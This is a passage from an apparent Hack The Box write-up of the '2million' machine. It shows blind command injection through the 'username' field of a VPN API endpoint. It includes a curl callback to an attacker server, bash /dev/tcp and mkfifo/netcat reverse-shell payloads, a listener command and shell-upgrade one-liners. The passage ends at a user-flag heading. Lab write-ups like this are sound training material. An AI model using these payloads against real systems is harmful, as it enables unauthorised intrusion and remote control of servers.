 One of the endpoints did **not validate or sanitize the `username` property**, allowing injection of unexpected values. This likely stems from unsanitized input passed to a system command (e.g., PHP's exec() or system() for OpenVPN cert generation).

Initial tests: Set username to "test; whoami" – no direct output, indicating blind injection.

While blind command injection attempts didn’t return a response, a side-channel approach was used:

- A `curl` command in the `username` field was sent to an HTTP server under my control (e.g., python -m http.server 8000) — it received a connection, confirming code execution.

Example payload:

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=your_session_id
Content-Type: application/json

{"username":"test && curl http://your_ip:8000/test #"}
```

Server logs show hit, proving RCE.

![Pasted image 20250920210440](Pasted image 20250920210440.png)

![Pasted image 20250920210504](Pasted image 20250920210504.png)

### Remote Code Execution (RCE)

A **reverse shell** was successfully triggered by injecting a shell payload in the `username` parameter. Common payloads work due to the blind nature; base64-encode if needed to bypass filters.

- Netcat listener was set up locally: `nc -lvnp 443`
- Shell payload sent via API, e.g., bash reverse shell:
  
```json
{"username":"test && bash -i >& /dev/tcp/your_ip/443 0>&1 #"}
```

Alternative (if issues): Use mkfifo for stability:

```json
{"username":"test && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc your_ip 443 >/tmp/f #"}
```

- Reverse shell received as www-data in /var/www/html.

Upgrade shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'` or `script /dev/null -c bash` for interactivity.

![Pasted image 20250920211120](Pasted image 20250920211120.png)

![Pasted image 20250920211136](Pasted image 20250920211136.png)

---

## Local Enumeration & User Flag
